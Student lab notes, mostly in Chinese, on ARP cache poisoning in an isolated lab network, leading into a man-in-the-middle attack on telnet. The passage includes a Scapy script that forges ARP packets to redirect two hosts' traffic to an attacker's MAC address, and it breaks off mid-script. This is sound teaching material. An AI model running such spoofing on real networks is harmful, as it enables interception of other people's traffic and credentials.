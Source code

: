 #### Section1 无表项
![[大三下/网络与信息安全/实验二/attachments/14.png]]

![[大三下/网络与信息安全/实验二/attachments/15.png]]

在无缓存的情况下，无效

#### Section1 有表项

![[大三下/网络与信息安全/实验二/attachments/16.png]]

![[大三下/网络与信息安全/实验二/attachments/17.png]]

![[大三下/网络与信息安全/实验二/attachments/18.png]]

Ping完，在有缓存的清空下，攻击成功


# Task 2: MITM Attack on Telnet using ARP Cache Poisoning


Figure 2: Man-In-The-Middle Attack against telnet
![[大三下/网络与信息安全/实验二/attachments/19.png]]
Step 1 (Launch the ARP cache poisoning attack).
首先，Host M对A和B进行ARP缓存中毒攻击，在A的ARP缓存中，B的IP地址映射到M的MAC地址，在B的ARP缓存中，A的IP地址也映射到M的MAC地址。在这个步骤之后，在A和B之间发送的数据包将全部发送给m。我们将使用来自Task 1的ARP缓存中毒攻击来实现这个目标。

```
首先让B的arp表也映射错误，mac映射为M的mac, 改一下task1的程序ip就好，然后再通过ping M的地址，让B的arp表中也有M的mac，结果如下

这里需要我们每5s发一个假的报文，否则攻击表项可能被真的替代。利用之前的程序，加一个while循环，并且每隔5s给两边都发一次假的arp报文，修改代码如下：
```


```python
#!/usr/bin/env python3
from scapy.all import *
import time
import sys

# victim:10.9.0.5
# goal: map 10.9.0.6 to 02:42:0a:09:00:69
print("SEDING ARP PACKET.......")
ether_A = Ether()
ether_A .src ="02:42:0a:09:00:69" 
ether_A.dst="02:42:0a:09:00:05"
arp_A = ARP()
arp_A.op = 1 # 1 for ARP request; 2 for ARP reply
arp_A.hwsrc="02:42:0a:09:00:69" 
arp_A.psrc="10.9.0.6"
arp_A.hwdst="00:00:00:00:00:00" 
arp_A.pdst="10.9.0.5"
pkt_A = ether_A/arp_A
sendp(pkt_A)

# victim:10.9.0.6
# goal: map 10.9.0.5 to 02:42:0a:09:00:69
ether_B= Ether()
ether_B.src ="02:42:0a:09:00:69" 
ether_B.dst="02:42:0a:09:00:06"
arp_B = ARP()
arp_B.op = 1 # 1 for ARP request; 2 for ARP reply
arp_B.hwsrc="02:42:0a:09:00:69" 
arp_B.psrc="10.9.0.5"
```